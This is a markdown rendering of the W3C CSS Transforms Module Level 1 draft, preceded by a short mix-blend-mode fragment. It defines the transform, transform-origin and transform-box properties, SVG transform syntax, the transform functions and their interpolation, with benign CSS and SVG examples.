The current definition of mix-blend-mode [defines](#compositing-2:csscompositingrules_CSS) the input (backdrop) image for mix-blend-mode as being all of the underlying content of the parent stacking context. This definition could likely be relaxed to use the Backdrop Root definition instead, allowing more elements to be blended.

---

## CSS Transforms Module Level 1 {#css-transforms-1}

- **Shortname:** `css-transforms-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-transforms/](https://drafts.csswg.org/css-transforms/)
- **Published TR:** [https://www.w3.org/TR/css-transforms-1/](https://www.w3.org/TR/css-transforms-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2025-11-30

### 1. Introduction {#css-transforms-1:intro}

*This section is not normative.*

The CSS [visual formatting model](#css2) describes a coordinate system within each element is positioned. Positions and sizes in this coordinate space can be thought of as being expressed in pixels, starting in the origin of point with positive values proceeding to the right and down.

This coordinate space can be modified with the `transform` property. Using transform, elements can be translated, rotated and scaled.

#### 1.1. Module Interactions {#css-transforms-1:module-interactions}

This module defines a set of CSS properties that affect the visual rendering of elements to which those properties are applied; these effects are applied after elements have been sized and positioned according to the [visual formatting model](#css2) from [CSS2]. Some values of these properties result in the creation of a [containing block](#css2:containing-block), and/or the creation of a stacking context.

Transforms affect the rendering of backgrounds on elements with a value of `fixed` for the `background-attachment` property, which is specified in [CSS3BG].

Transforms affect the client rectangles returned by the Element Interface Extensions [getClientRects()](#cssom-view-1:dom-element-getclientrects) and [getBoundingClientRect()](#cssom-view-1:dom-element-getboundingclientrect), which are specified in [CSSOM-VIEW].

Transforms affect the computation of the [scrollable overflow region](#css-overflow-3:scrollable-overflow-region) as described by [CSS-OVERFLOW-3].

#### 1.2. CSS Values {#css-transforms-1:css-values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly. Terminology {#terminology}

==========================

When used in this specification, terms have the meanings assigned in this section.

****transformable element****

: A transformable element is an element in one of these categories:

  - all elements whose layout is governed by the CSS box model except for non-replaced inline boxes, table-column boxes, and table-column-group boxes [CSS2],
  - all SVG paint server elements, the clipPath element and SVG renderable elements with the exception of any descendant element of text content elements [SVG2].

****transformed element****

: An element with a computed value other than `none` for the `transform` property.

****user coordinate system** **local coordinate system****

: In general, a coordinate system defines locations and distances on the current canvas. The current local coordinate system (also user coordinate system) is the coordinate system that is currently active and which is used to define how coordinates and lengths are located and computed, respectively, on the current canvas. The current user coordinate system has its origin at the top-left of a reference box specified by the `transform-box` property. Percentage values are relative to the dimension of this reference box. One unit equals one CSS pixel.

****transformation matrix****

: A matrix that defines the mathematical mapping from one coordinate system into another. It is computed from the values of the `transform` and `transform-origin` properties as described [below](#css-transforms-1:transformation-matrix-computation).

****current transformation matrix** (CTM)**

: A matrix that defines the mapping from the local coordinate system into the viewport coordinate system.

****2D matrix****

: A 3x2 transformation matrix, or a 4x4 matrix where the items m31, m32, m13, m23, m43, m14, m24, m34 are equal to `0` and m33, m44 are equal to `1`.

****identity transform function****

: A [transform function](#css-transforms-1:transform-functions) that is equivalent to a identity 4x4 matrix (see [Mathematical Description of Transform Functions](#css-transforms-1:mathematical-description)). Examples for identity transform functions are `translate(0)`, `translateX(0)`, `translateY(0)`, `scale(1)`, `scaleX(1)`, `scaleY(1)`, `rotate(0)`, `skew(0, 0)`, `skewX(0)`, `skewY(0)` and `matrix(1, 0, 0, 1, 0, 0)`.

****post-multiply** **post-multiplied****

: Term *A* post-multiplied by term *B* is equal to *A* · *B*.

****pre-multiply** **pre-multiplied****

: Term *A* pre-multiplied by term *B* is equal to *B* · *A*.

****multiply****

: Multiply term *A* by term *B* is equal to *A* · *B*.

### 2. The Transform Rendering Model {#css-transforms-1:transform-rendering}

*This section is normative.*

Specifying a value other than `none` for the `transform` property establishes a new local coordinate system at the element that it is applied to. The mapping from where the element would have rendered into that local coordinate system is given by the element’s transformation matrix.

The transformation matrix is computed from the `transform` and `transform-origin` properties as follows:

1. Start with the identity matrix.
2. Translate by the computed X and Y of `transform-origin`
3. Multiply by each of the transform functions in `transform` property from left to right
4. Translate by the negated computed X and Y values of `transform-origin`

> **Example:** An element has a `transform` property that is not `none`.
>
> ```
> div {
>   transform-origin: 0 0;
>   transform: translate(-10px, -20px) scale(2) rotate(45deg);
> }
> ```
>
> The `transform-origin` property is set to `0 0` and can be omitted. The transformation matrix *TM* gets computed by post-multiplying the `<translate()>`, `<scale()>` and `<rotate()>` `<transform-function>`s.
>
> 

Transforms apply to transformable elements.

The coordinate space is a coordinate system with two axes: the X axis increases horizontally to the right; the Y axis increases vertically downwards.

Transformations are cumulative. That is, elements establish their local coordinate system within the coordinate system of their parent.

To map a point *plocal* with the coordinate pair *xlocal* and *ylocal* from the local coordinate system of an element into the parent’s coordinate system, post-multiply the transformation matrix *TM* of the element by *plocal*. The result is the mapped point *pparent* with the coordinate pair *xparent* and *yparent* in the parent’s local coordinate system.


From the perspective of the user, an element effectively accumulates all the `transform` properties of its ancestors as well as any local transform applied to it. The accumulation of these transforms defines a current transformation matrix (CTM) for the element.

The current transformation matrix is computed by post-multiplying all transformation matrices starting from the viewport coordinate system and ending with the transformation matrix of an element.

> **Example:** This example has multiple, nested elements in an SVG document. Some elements get transformed by a transformation matrix.
>
> ```
> <svg xmlns="http://www.w3.org/2000/svg">
>   <g transform="translate(-10, 20)">
>     <g transform="scale(2)">
>       <rect width="200" height="200" transform="rotate(45)"/>
>     </g>
>   </g>
> </svg>
> ```
>
> - `translate(-10, 20)` computes to the transformation matrix *T1*
> - `scale(2)` computes to the transformation matrix *T2*
> - `rotate(45)` computes to the transformation matrix *T3*
>
> The CTM for the SVG rect element is the result of multiplying *T1*, *T2* and *T3* in order.
>
> 
>
> To map a point *plocal* with the coordinate pair *xlocal* and *ylocal* from the local coordinate system of the SVG rect element into the viewport coordinate system, post-multiply the current transformation matrix *CTM* of the element by *plocal*. The result is the mapped point *pviewport* with the coordinate pair *xviewport* and *yviewport* in the viewport coordinate system.
>
> 

> **Note:** Transformations do affect the visual rendering, but have no effect on the CSS layout other than affecting overflow. Transforms are also taken into account when computing client rectangles exposed via the Element Interface Extensions, namely [getClientRects()](#cssom-view-1:dom-element-getclientrects) and [getBoundingClientRect()](#cssom-view-1:dom-element-getboundingclientrect), which are specified in [CSSOM-VIEW].

> **Example:** ```
> div {
>     transform: translate(100px, 100px);
> }
> ```
>
> This transform moves the element by 100 pixels in both the X and Y directions.
>
> 

> **Example:** ```
> div {
>   height: 100px; width: 100px;
>   transform-origin: 50px 50px;
>   transform: rotate(45deg);
> }
> ```
>
> The `transform-origin` property moves the point of origin by 50 pixels in both the X and Y directions. The transform rotates the element clockwise by 45° about the point of origin. After all transform functions were applied, the translation of the origin gets translated back by -50 pixels in both the X and Y directions.
>
> 

> **Example:** ```
> div {
>   height: 100px; width: 100px;
>   transform: translate(80px, 80px) scale(1.5, 1.5) rotate(45deg);
> }
> ```
>
> The visual appearance is as if the div element gets translated by 80px to the bottom left direction, then scaled up by 150% and finally rotated by 45°.
>
> Each `<transform-function>` can get represented by a corresponding 4x4 matrix. To map a point from the coordinate space of the div box to the coordinate space of the parent element, these transforms get multiplied in the reverse order:
>
> 1. The rotation matrix gets post-multiplied by the scale matrix.
> 2. The result of the previous multiplication is then post-multiplied by the translation matrix to create the accumulated transformation matrix.
> 3. Finally, the point to map gets pre-multiplied with the accumulated transformation matrix.
>
> For more details see [The Transform Function Lists](#css-transforms-1:transform-function-lists).
>
> 
>
> > **Note:** The identical rendering can be obtained by nesting elements with the equivalent transforms:
>
> ```
> <div style="transform: translate(80px, 80px)">
>     <div style="transform: scale(1.5, 1.5)">
>         <div style="transform: rotate(45deg)"></div>
>     </div>
> </div>
> ```

For elements whose layout is governed by the CSS box model, the transform property does not affect the flow of the content surrounding the transformed element. However, the extent of the overflow area takes into account transformed elements. This behavior is similar to what happens when elements are offset via relative positioning. Therefore, if the value of the `overflow` property is `scroll` or `auto`, scrollbars will appear as needed to see content that is transformed outside the visible area. Specifically, transforms can extend (but do not shrink) the size of the overflow area, which is computed as the union of the bounds of the elements before and after the application of transforms.

For elements whose layout is governed by the CSS box model, any value other than `none` for the `transform` property results in the creation of a stacking context. Implementations must paint the layer it creates, within its parent stacking context, at the same stacking order that would be used if it were a positioned element with `z-index: 0`. If an element with a transform is positioned, the `z-index` property applies as described in [CSS2], except that `auto` is treated as `0` since a new stacking context is always created.

For elements whose layout is governed by the CSS box model, any value other than `none` for the `transform` property also causes the element to establish a **containing block for all descendants**. Its padding box will be used to layout for all of its absolute-position descendants, fixed-position descendants, and descendant fixed background attachments.

> **Example:** To demonstrate the effect of containing block for all descendants on fixed-position descendants, the following code snippets should behave identically:
>
> ```
> <style>
> #container {
>   width: 300px;
>   height: 200px;
>   border: 5px dashed black;
>   padding: 5px;
>   overflow: scroll;
> }
>
> #bloat {
>   height: 1000px;
> }
>
> #child {
>   right: 0;
>   bottom: 0;
>   width: 10%;
>   height: 10%;
>   background: green;
> }
> </style>
>
> <div id="container" style="transform:translateX(5px);">
>   <div id="bloat"></div>
>   <div id="child" style="position:fixed;"></div>
> </div>
> ```
>
> versus
>
> ```
> <div id="container" style="position:relative; z-index:0; left:5px;">
>   <div id="bloat"></div>
>   <div id="child" style="position:absolute;"></div>
> </div>
> ```

When the background of an element is propagated to the canvas (see [CSS Backgrounds 3 § 2.11.1 The Canvas Background and the Root Element](#css-backgrounds-4:root-background) and [CSS Backgrounds 3 § 2.11.2 The Canvas Background and the HTML <body> Element](#css-backgrounds-4:body-background)), that background is not affected by any transform specified for that element or for the root element.

For elements that are effected by a transform (i.e. have a transform applied to them, or to any of their ancestor elements) and do not have their background propagated to the canvas, a value of `fixed` for the `background-attachment` property is treated as if it had a value of `scroll`. The computed value of `background-attachment` is not affected.

### 3. The `transform` Property {#css-transforms-1:transform-property}

A transformation is applied to the coordinate system an element renders into through the `transform` property. This property contains a list of [transform functions](#css-transforms-1:transform-functions). The final transformation value for a coordinate system is obtained by converting each function in the list to its corresponding matrix like defined in [Mathematical Description of Transform Functions](#css-transforms-1:mathematical-description), then multiplying the matrices.

| Field | Value |
| --- | --- |
| Name: | **transform** |
| [Value:](#css-values-4:value-defs) | none \| `<transform-list>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the size of reference box |
| [Computed value:](#css-cascade-6:computed) | as specified, but with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | transform list, see [interpolation rules](#css-transforms-1:interpolation-of-transforms) |

Any computed value other than `none` for the transform affects containing block and stacking context, as described in [§ 2 The Transform Rendering Model](#css-transforms-1:transform-rendering).

```css
<transform-list> = <transform-function>+
```

#### 3.1. Serialization of `<transform-function>`s {#css-transforms-1:serialization-of-transform-functions}

To serialize the `<transform-function>`s, serialize as per their individual grammars, in the order the grammars are written in, avoiding `<calc()>` expressions where possible, avoiding <calc()> transformations, omitting components when possible without changing the meaning, joining space-separated tokens with a single space, and following each serialized comma with a single space.

#### 3.2. Resolved value of `transform` {#css-transforms-1:serialization-of-the-computed-value}

The `transform` property is a resolved value special case property. [CSSOM]

When the computed value is a `<transform-list>`, the resolved value is one `<matrix()>` function computed by the following algorithm:

1. Let *transform* be a 4x4 matrix initialized to the identity matrix. The elements *m11*, *m22*, *m33* and *m44* of *transform* must be set to `1`; all other elements of *transform* must be set to `0`.
2. Post-multiply all `<transform-function>`s in `<transform-list>` to *transform*.
3. Serialize *transform* to a `<matrix()>` function.

For other computed values, the resolved value is the computed value.

### 4. The `transform-origin` Property {#css-transforms-1:transform-origin-property}

| Field | Value |
| --- | --- |
| Name: | **transform-origin** |
| [Value:](#css-values-4:value-defs) | [ left \| center \| right \| top \| bottom \| `<length-percentage>` ] \| [ left \| center \| right \| <length-percentage> ] [ top \| center \| bottom \| <length-percentage> ] `<length>`? \| [ [ center \| left \| right ] && [ center \| top \| bottom ] ] <length>? |
| [Initial:](#css-cascade-6:initial-values) | 50% 50% |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the size of reference box |
| [Computed value:](#css-cascade-6:computed) | see `background-position` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The values of the `transform` and `transform-origin` properties are used to compute the transformation matrix, as described above.

If only one value is specified, the second value is assumed to be `center`. If one or two values are specified, the third value is assumed to be `0px`.

If two or more values are defined and either no value is a keyword, or the only used keyword is `center`, then the first value represents the horizontal position (or offset) and the second represents the vertical position (or offset). A third value always represents the Z position (or offset) and must be of type `<length>`.

**`<length-percentage>`**

: A percentage for the horizontal offset is relative to the width of the reference box. A percentage for the vertical offset is relative to the height of the reference box. The value for the horizontal and vertical offset represent an offset from the top left corner of the reference box.

**`<length>`**

: A length value gives a fixed length as the offset. The value for the horizontal and vertical offset represent an offset from the top left corner of the reference box.

****top****

: Computes to `0%` for the vertical position.

****right****

: Computes to `100%` for the horizontal position.

****bottom****

: Computes to `100%` for the vertical position.

****left****

: Computes to `0%` for the horizontal position.

****center****

: Computes to `50%` (`left 50%`) for the horizontal position if the horizontal position is not otherwise specified, or `50%` (`top 50%`) for the vertical position if it is.

For SVG elements without associated CSS layout box the initial used value is `0 0` as if the user agent style sheet contained:

```
*:not(svg), *:not(foreignObject) > svg {
    transform-origin: 0 0;
}
```

The `transform-origin` property is a resolved value special case property like `height`. [CSSOM]

### 5. Transform reference box: the `transform-box` property {#css-transforms-1:transform-box}

| Field | Value |
| --- | --- |
| Name: | **transform-box** |
| [Value:](#css-values-4:value-defs) | content-box \| border-box \| fill-box \| stroke-box \| view-box |
| [Initial:](#css-cascade-6:initial-values) | view-box |
| [Applies to:](#css-cascade-5:applies-to) | transformable elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

All transformations defined by the `transform` and `transform-origin` property are relative to the position and dimensions of the **reference box** of the element. The reference box is specified by one of the following:

****content-box****

: Uses the content box as reference box. The reference box of a table is the border box of its [table wrapper box](#css2:model), not its table box.

****border-box****

: Uses the border box as reference box. The reference box of a table is the border box of its [table wrapper box](#css2:model), not its table box.

****fill-box****

: Uses the object bounding box as reference box.

****stroke-box****

: Uses the stroke bounding box as reference box.

****view-box****

: Uses the nearest [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) as reference box.

For the SVG `pattern` element, the reference box gets defined by the `patternUnits` attribute [SVG2].

For the SVG linearGradient and radialGradient elements, the reference box gets defined by the `gradientUnits` attribute [SVG2].

For the SVG clipPath element, the reference box gets defined by the `clipPathUnits` attribute [CSS-MASKING].

A reference box adds an additional offset to the origin specified by the `transform-origin` property.

For SVG elements without associated CSS layout box, the used value for `content-box` is `fill-box` and for `border-box` is `stroke-box`.

For elements with associated CSS layout box, the used value for `fill-box` is `content-box` and for `stroke-box` and `view-box` is `border-box`.

### 6. The SVG transform Attribute {#css-transforms-1:svg-transform}

#### 6.1. SVG presentation attributes {#css-transforms-1:transform-attribute-specificity}

The `transform-origin` CSS property is also a presentation attribute and extends the list of existing presentation attributes [SVG2].

SVG 2 defines the transform, `patternTransform`, `gradientTransform` attributes as presentation attributes, represented by the CSS `transform` property [SVG2].

The participation in the CSS cascade is determined by the specificity of presentation attributes in the SVG specification. According to SVG, user agents conceptually insert a [new author style sheet](https://www.w3.org/TR/SVG/styling.html#PresentationAttributes) for presentation attributes, which is the first in the author style sheet collection [SVG2].

> **Example:** This example shows the combination of the `transform` style property and the transform attribute.
>
> ```
> <svg xmlns="http://www.w3.org/2000/svg">
>   <style>
>   .container {
>     transform: translate(100px, 100px);
>   }
>   </style>
>
>   <g class="container" transform="translate(200 200)">
>     <rect width="100" height="100" fill="blue" />
>   </g>
> </svg>
> ```
>
> 
>
> Because of the participation to the CSS cascade, the `transform` style property overrides the transform attribute. Therefore the container gets translated by `100px` in both the horizontal and the vertical directions, instead of `200px`.

#### 6.2. Syntax of the SVG transform attribute {#css-transforms-1:svg-syntax}

For backwards compatibility reasons, the syntax of the transform, `patternTransform`, `gradientTransform` attributes differ from the syntax of the `transform` CSS property. For the attributes, there is no support for additional `<transform-function>`s defined for the CSS `transform` property. Specifically, `<translateX()>`, `<translateY()>`, `<scaleX()>`, `<scaleY()>` and `<skew()>` are not supported by the transform, `patternTransform`, `gradientTransform` attributes.

The following list uses the Backus-Naur Form (BNF) to define values for the transform, patternTransform and gradientTransform attributes followed by an informative rail road diagram. The following notation is used:

- *: 0 or more
- +: 1 or more
- ?: 0 or 1
- (): grouping
- |: separates alternatives
- double quotes surround literals. Literals consists of letters [CSS-SYNTAX-3], left parenthesis and right parenthesis.
- `<number-token>` defined by the CSS Syntax module [CSS-SYNTAX-3].

> **Note:** The syntax reflects implemented behavior in user agents and differs from the syntax defined by SVG 1.1.

**left parenthesis (**

: U+0028 LEFT PARENTHESIS

**right parenthesis )**

: U+0029 RIGHT PARENTHESIS

**comma**

: U+002C COMMA.

**wsp**

: Either a U+000A LINE FEED, U+000D CARRIAGE RETURN, U+0009 CHARACTER TABULATION, or U+0020 SPACE.

**comma-wsp**

: ```
  (wsp+ comma? wsp*) | (comma wsp*)
  ```

**translate**

: ```
  "translate" wsp* "(" wsp* number ( comma-wsp? number )? wsp* ")"
  ```

**scale**

: ```
  "scale" wsp* "(" wsp* number ( comma-wsp? number )? wsp* ")"
  ```

**rotate**

: ```
  "rotate" wsp* "(" wsp* number ( comma-wsp? number comma-wsp? number )? wsp* ")"
  ```

**skewX**

: ```
  "skewX" wsp* "(" wsp* number wsp* ")"
  ```

**skewY**

: ```
  "skewY" wsp* "(" wsp* number wsp* ")"
  ```

**matrix**

: ```
  "matrix" wsp* "(" wsp*
      number comma-wsp?
      number comma-wsp?
      number comma-wsp?
      number comma-wsp?
      number comma-wsp?
      number wsp* ")"
  ```

**transform**

: ```
  matrix
  | translate
  | scale
  | rotate
  | skewX
  | skewY
  ```

**transforms**

: ```
  transform
  | transform comma-wsp? transforms
  ```

**transform-list**

: ```
  wsp* transforms? wsp*
  ```

#### 6.3. SVG transform functions {#css-transforms-1:svg-transform-functions}

SVG transform functions of the transform, `patternTransform`, `gradientTransform` attributes defined by the syntax above are mapped to CSS `<transform-function>`s as follows:

| SVG transform function | CSS `<transform-function>` | Additional notes |
| --- | --- | --- |
| [translate](#css-transforms-1:svg-translate) | `<translate()>` | Number values interpreted as CSS `<length>` types with `px` units. |
| [scale](#css-transforms-1:svg-scale) | `<scale()>` |  |
| [rotate](#css-transforms-1:svg-rotate) | `<rotate()>` | Only single value version. Number value interpreted as CSS `<angle>` type with `deg` unit. |
| [skewX](#css-transforms-1:svg-skewX) | `<skewX()>` | Number value interpreted as CSS `<angle>` type with `deg` unit. |
| [skewY](#css-transforms-1:svg-skewY) | `<skewY()>` | Number value interpreted as CSS `<angle>` type with `deg` unit. |
| [matrix](#css-transforms-1:svg-matrix) | `<matrix()>` |  |

The SVG transform function [rotate](#css-transforms-1:svg-rotate) with 3 values can not be mapped to a corresponding CSS `<transform-function>`. The 2 optional number values represent a horizontal translation value `cx` followed by a vertical translation value `cy`. Both number values get interpreted as CSS `<length>` types with `px` units and define the origin for rotation. The behavior is equivalent to an initial translation by `cx`, `cy`, a rotation defined by the first number value interpreted as `<angle>` type with `deg` unit followed by a translation by `-cx`, `-cy`.

A transform attribute can be the start or end value of a CSS Transition. If the value of a transform attribute is the start or end value of a CSS Transition and the SVG [transform list](#css-transforms-1:svg-transform-list) contains at least one [rotate](#css-transforms-1:svg-rotate) transform function with 3 values, the individual SVG transform functions must get post-multiplied and the resulting matrix must get mapped to a `<matrix()>` CSS `<transform-function>` and used as start/end value of the CSS Transition.

#### 6.4. User coordinate space {#css-transforms-1:svg-user-coordinate-space}

For the `pattern` element, the `patternTransform` attribute and `transform` property define an additional transformation in the pattern coordinate system. See `patternUnits` attribute for details [SVG2].

For the `linearGradient` and `radialGradient` elements, the `gradientTransform` attribute and `transform` property define an additional transformation in the gradient coordinate system. See `gradientUnits` attribute for details [SVG2].

For the `clipPath` element, the transform attribute and `transform` property define an additional transformation in the clipping path coordinate space. See `clipPathUnits` attribute for details [CSS-MASKING].

For all other transformable elements the transform attribute and `transform` property define a transformation in the current user coordinate system of the parent. All percentage values of the transform attribute are relative to the element’s reference box.

> **Example:** The `transform-origin` property on the pattern in the following example specifies a `50%` translation of the origin in the horizontal and vertical dimension. The `transform` property specifies a translation as well, but in absolute lengths.
>
> ```
> <svg xmlns="http://www.w3.org/2000/svg">
>   <style>
>   pattern {
>     transform: rotate(45deg);
>     transform-origin: 50% 50%;
>   }
>   </style>
>
>   <defs>
>   <pattern id="pattern-1">
>     <rect id="rect1" width="100" height="100" fill="blue" />
>   </pattern>
>   </defs>
>
>   <rect width="200" height="200" fill="url(#pattern-1)" />
> </svg>
> ```
>
> An SVG `pattern` element doesn’t have a bounding box. The reference box of the referencing `rect` element is used instead to solve the relative values of the `transform-origin` property. Therefore the point of origin will get translated by 100 pixels temporarily to rotate the user space of the `pattern` elements content.

#### 6.5. SVG DOM interface for the transform attribute {#css-transforms-1:transform-attribute-dom}

The SVG specification defines the "[SVGAnimatedTransformList](https://www.w3.org/TR/2011/REC-SVG11-20110816/coords.html#InterfaceSVGAnimatedTransformList)" interface in the SVG DOM to provide access to the animated and the base value of the SVG transform, `gradientTransform` and `patternTransform` attributes. To ensure backwards compatibility, this API must still be supported by user agents.

`baseVal` gives the author the possibility to access and modify the values of the SVG transform, `patternTransform`, `gradientTransform` attributes. To provide the necessary backwards compatibility to the SVG DOM, `baseVal` must reflect the values of this author style sheet. All modifications to SVG DOM objects of `baseVal` must affect this author style sheet immediately.

`animVal` represents the computed style of the `transform` property. Therefore it includes all applied [CSS3 Transitions](#css-transitions-2), [CSS3 Animations](#css-animations-2) or SVG Animations if any of those are underway. The computed style and SVG DOM objects of `animVal` can not be modified.

### 7. The Transform Functions {#css-transforms-1:transform-functions}

The value of the `transform` property is a list of **<transform-function>**. The set of allowed transform functions is given below. In the following functions, a `<zero>` behaves the same as `0deg` ("unitless 0" angles are preserved for legacy compat). A percentage for horizontal translations is relative to the width of the reference box. A percentage for vertical translations is relative to the height of the reference box.

#### 7.1. 2D Transform Functions {#css-transforms-1:two-d-transform-functions}

****matrix()** = matrix( `<number>`#{6} )**

: specifies a 2D transformation in the form of a [transformation matrix](#css-transforms-1:MatrixDefined) of the six values a, b, c, d, e, f.

****translate()** = translate( `<length-percentage>` , <length-percentage>? )**

: specifies a [2D translation](#css-transforms-1:TranslateDefined) by the vector [tx, ty], where tx is the first translation-value parameter and ty is the optional second translation-value parameter. If *<ty>* is not provided, ty has zero as a value.

****translateX()** = translateX( `<length-percentage>` )**

: specifies a [translation](#css-transforms-1:TranslateDefined) by the given amount in the X direction.

****translateY()** = translateY( `<length-percentage>` )**

: specifies a [translation](#css-transforms-1:TranslateDefined) by the given amount in the Y direction.

****scale()** = scale( `<number>` , <number>? )**

: specifies a [2D scale](#css-transforms-1:ScaleDefined) operation by the [sx,sy] scaling vector described by the 2 parameters. If the second parameter is not provided, it takes a value equal to the first. For example, scale(1, 1) would leave an element unchanged, while scale(2, 2) would cause it to appear twice as long in both the X and Y axes, or four times its typical geometric size.

****scaleX()** = scaleX( `<number>` )**

: specifies a [2D scale](#css-transforms-1:ScaleDefined) operation using the [sx,1] scaling vector, where sx is given as the parameter.

****scaleY()** = scaleY( `<number>` )**

: specifies a [2D scale](#css-transforms-1:ScaleDefined) operation using the [1,sy] scaling vector, where sy is given as the parameter.

****rotate()** = rotate( [ `<angle>` | `<zero>` ] )**

: specifies a [2D rotation](#css-transforms-1:RotateDefined) by the angle specified in the parameter about the origin of the element, as defined by the `transform-origin` property. For example, `rotate(90deg)` would cause elements to appear rotated one-quarter of a turn in the clockwise direction.

****skew()** = skew( [ `<angle>` | `<zero>` ] , [ <angle> | <zero> ]? )**

: specifies a [2D skew](#css-transforms-1:SkewDefined) by [ax,ay] for X and Y. If the second parameter is not provided, it has a zero value.

****skewX()** = skewX( [ `<angle>` | `<zero>` ] )**

: specifies a [2D skew transformation along the X axis](#css-transforms-1:SkewXDefined) by the given angle.

****skewY()** = skewY( [ `<angle>` | `<zero>` ] )**

: specifies a [2D skew transformation along the Y axis](#css-transforms-1:SkewYDefined) by the given angle.

#### 7.2. Transform function primitives and derivatives {#css-transforms-1:transform-primitives}

Some transform functions can be represented by more generic transform functions. These transform functions are called derived transform functions, and the generic transform functions are called primitive transform functions. Two-dimensional primitives and their derived transform functions are:

**`translate()`**

: for `<translateX()>`, `<translateY()>` and `<translate()>`.

**`scale()`**

: for `<scaleX()>`, `<scaleY()>` and `<scale()>`.

### 8. The Transform Function Lists {#css-transforms-1:transform-function-lists}

If a list of `<transform-function>`s is provided, then the net effect is as if each transform function had been specified separately in the order provided.

That is, in the absence of other styling that affects position and dimensions, a nested set of transforms is equivalent to a single list of transform functions, applied from the coordinate system of the ancestor to the local coordinate system of a given element. The resulting transform is the matrix multiplication of the list of transforms.

> **Example:** For example,
>
> ```
> <div style="transform: translate(-10px, -20px) scale(2) rotate(45deg)"/>
> ```
>
> is functionally equivalent to:
>
> ```
> <div style="transform: translate(-10px, -20px)" id="root">
>   <div style="transform: scale(2)">
>     <div style="transform: rotate(45deg)">
>     </div>
>   </div>
> </div>
> ```

If a transform function causes the current transformation matrix of an object to be non-invertible, the object and its content do not get displayed.

> **Example:** The object in the following example gets scaled by 0.
>
> ```
> <style>
> .box {
>   transform: scale(0);
> }
> </style>
>
> <div class="box">
>   Not visible
> </div>
> ```
>
> The scaling causes a non-invertible CTM for the coordinate space of the div box. Therefore neither the div box, nor the text in it get displayed.

### 9. Interpolation of Transforms {#css-transforms-1:interpolation-of-transforms}

Interpolation of transform function lists is performed as follows:

- If both *Va* and *Vb* are `none`:

  - *Vresult* is `none`.
- Treating `none` as a list of zero length, if *Va* or *Vb* differ in length:

  - extend the shorter list to the length of the longer list, setting the function at each additional position to the identity transform function matching the function at the corresponding position in the longer list. Both transform function lists are then interpolated following the next rule.

  > **Example:** For example, if *Va* is `scale(2)` and *Vb* is `none` then the value `scale(1)` will be used for *Vb* and interpolation will proceed using the next rule. Similarly, if *Va* is `scale(1)` and *Vb* is `scale(2) rotate(50deg)` then the interpolation will be performed as if *Va* were `scale(1) rotate(0)`.
- Let *Vresult* be an empty list. Beginning at the start of *Va* and *Vb*, compare the corresponding functions at each position:

  - While the functions have either the same name, or are derivatives of the same [primitive transform function](#css-transforms-1:transform-primitives), interpolate the corresponding pair of functions as described in [§ 10 Interpolation of primitives and derived transform functions](#css-transforms-1:interpolation-of-transform-functions) and append the result to *Vresult*.
  - If the pair do not have a common name or [primitive transform function](#css-transforms-1:transform-primitives), post-multiply the remaining transform functions in each of *Va* and *Vb* respectively to produce two 4x4 matrices. Interpolate these two matrices as described in [§ 11 Interpolation of Matrices](#css-transforms-1:matrix-interpolation), append the result to *Vresult*, and cease iterating over *Va* and *Vb*.

  > **Example:** For example, if *Va* is `rotate(0deg) scale(1) translate(20px)` and *Vb* is `rotate(270deg) translate(10px) scale(2)`, the `rotate(0deg)` and `rotate(360deg)` functions will be interpolated according to [§ 10 Interpolation of primitives and derived transform functions](#css-transforms-1:interpolation-of-transform-functions) while the remainder of each list—​`scale(1) translate(20px)` and `translate(10px) scale(2)`—​will first be converted to equivalent 4x4 matrices and then interpolated as described in [§ 11 Interpolation of Matrices](#css-transforms-1:matrix-interpolation).
  >
  > A previous version of this specification did not attempt to interpolate matching pairs of transform functions unless all functions in the list matched. As a result, the two lists in this example would be interpolated using matrix interpolation only and the `rotate(360deg)` component of the second list would be lost.

In some cases, an animation might cause a transformation matrix to be singular or non-invertible. For example, an animation in which scale moves from 1 to -1. At the time when the matrix is in such a state, the transformed element is not rendered.

### 10. Interpolation of primitives and derived transform functions {#css-transforms-1:interpolation-of-transform-functions}

Two transform functions with the same name and the same number of arguments are interpolated numerically without a former conversion. The calculated value will be of the same transform function type with the same number of arguments. Special rules apply to `<matrix()>`.

> **Example:** The two transform functions `translate(0)` and `translate(100px)` are of the same type, have the same number of arguments and therefore can get interpolated numerically. `translateX(100px)` is not of the same type and `translate(100px, 0)` does not have the same number of arguments, therefore these transform functions can not get interpolated without a former conversion step.

Two different types of transform functions that share the same primitive, or transform functions of the same type with different number of arguments can be interpolated. Both transform functions need a former conversion to the common primitive first and get interpolated numerically afterwards. The computed value will be the primitive with the resulting interpolated arguments.

> **Example:** The following example describes a transition from `translateX(100px)` to `translateY(100px)` in 3 seconds on hovering over the div box. Both transform functions derive from the same primitive `translate()` and therefore can be interpolated.
>
> ```
> div {
>   transform: translateX(100px);
> }
>
> div:hover {
>   transform: translateY(100px);
>   transition: transform 3s;
> }
> ```
>
> For the time of the transition both transform functions get transformed to the common primitive. `translateX(100px)` gets converted to `translate(100px, 0)` and `translateY(100px)` gets converted to `translate(0, 100px)`. Both transform functions can then get interpolated numerically.

If both transform functions share a primitive in the two-dimensional space, both transform functions get converted to the two-dimensional primitive. If one or both transform functions are three-dimensional transform functions, the common three-dimensional primitive is used.

